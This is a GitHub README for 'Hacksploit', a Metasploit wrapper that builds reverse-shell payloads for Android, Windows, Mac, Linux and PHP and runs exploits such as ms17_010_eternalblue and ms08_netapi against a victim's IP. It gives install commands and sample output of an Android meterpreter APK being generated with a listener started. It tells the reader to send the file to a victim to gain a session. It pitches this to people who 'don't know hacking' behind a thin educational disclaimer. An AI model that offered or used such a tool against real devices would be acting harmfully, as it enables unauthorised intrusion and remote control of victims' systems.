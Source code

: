 # Hacksploit Version 3.1
A tool makes the Metasploit Payloads Easier and faster
Contains 8 payloads. Very Faster and Easier than ever. This will also save the time

{Version 3.1 has only 9 payloads but some are different payloads}
The PAYLOADS are:
```
1] Android Payload | 5] Windows 7 Hunting with IP (SMB=ms08_netapi)  | 9] HTA Exploit Windows with Link
                   |                                                 |  
2] Windows Payload | 6] PHP Payload                                  |
                   |                                                 |
3] Mac Payload     | 7] Remote Desktop (ms17_010_eternalblue)        |
                   |                                                 |
4] Linux Paylaod   | 8] Exploit Windows ONLY by IP (ms17_010_psexec) | <--Vista/XP/2000/2003
```


# Install-Hacksploit
```
git clone https://github.com/Pentesting-Lab/Hacksploit.git
```
```
cd Hacksploit
```
  
# ReadThis!
This is only for education purposes. This can be useful for those who don't know hacking. They just wanted to give their IP and Payload Name and for  Remote Desktop (ms17_010_eternalblue) and Exploit Windows Vista/XP/2000/2003 ONLY by IP(ms17_010_psexec) needs Victims ip. After giving  those things easily you can hack. So it is very fast and easier and also makes the work easier. Even installer is also available. You can run it and install Hacksploit in your linux computer. Then you don't need to give cd Hacksploit. Just you can type hacksploit anywhere in your terminal. Then hacksploit wil start to run.

# What is the output?
~~~
    ╦ ╦┌─┐┌─┐┬┌─┌─┐┌─┐┬  ┌─┐┬┌┬┐  (Version:3.1)
    ╠═╣├─┤│  ├┴┐└─┐├─┘│  │ ││ │   (Linux)
    ╩ ╩┴ ┴└─┘┴ ┴└─┘┴  ┴─┘└─┘┴ ┴   (By Pratik(My Github account: Pentesting-Lab))




1] Android Payload | 5] Windows 7 Hunting with IP (SMB=ms08_netapi)  | 9] HTA Exploit Windows with Link
                   |                                                 |  
2] Windows Payload | 6] PHP Payload                                  |
                   |                                                 |
3] Mac Payload     | 7] Remote Desktop (ms17_010_eternalblue)        |
                   |                                                 |
4] Linux Paylaod   | 8] Exploit Windows ONLY by IP (ms17_010_psexec) | <--Vista/XP/2000/2003



Select option : 
~~~
Now select one of the option from the menu. For example I will select option 1
~~~
    ╦ ╦┌─┐┌─┐┬┌─┌─┐┌─┐┬  ┌─┐┬┌┬┐  (Version:3.1)
    ╠═╣├─┤│  ├┴┐└─┐├─┘│  │ ││ │   (Linux)
    ╩ ╩┴ ┴└─┘┴ ┴└─┘┴  ┴─┘└─┘┴ ┴   (By Pratik(My Github account: Pentesting-Lab))




1] Android Payload | 5] Windows 7 Hunting with IP (SMB=ms08_netapi)  | 9] HTA Exploit Windows with Link
                   |                                                 |  
2] Windows Payload | 6] PHP Payload                                  |
                   |                                                 |
3] Mac Payload     | 7] Remote Desktop (ms17_010_eternalblue)        |
                   |                                                 |
4] Linux Paylaod   | 8] Exploit Windows ONLY by IP (ms17_010_psexec) | <--Vista/XP/2000/2003



Select option : 1
Application Name: Pentesting-Lab    
[-] No platform was selected, choosing Msf::Module::Platform::Android from the payload
[-] No arch selected, selecting arch: dalvik from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 10181 bytes
Payload location is /root/Desktop/Pentesting-Lab.apk

[-] ***
[-] * WARNING: No database support: No database YAML file
[-] ***
payload => android/meterpreter/reverse_tcp
lhost => 192.168.29.81
lport => 4444
[*] Started reverse TCP handler on 192.168.29.81:4444 
~~~
So this will save the payload in Desktop. It will also show.
~~~
Payload location is /root/Desktop/Pentesting-Lab.apk
~~~
After you should send the payload to victim he will be hacked. Meterpreter session willwe opened
~~~
meterpreter>
~~~
So now you can type help for more commands.

For more information on payloads and etc... please visit https://github.com/Pentesting-Lab/Hacksploit/wiki/Hacksploit-Home
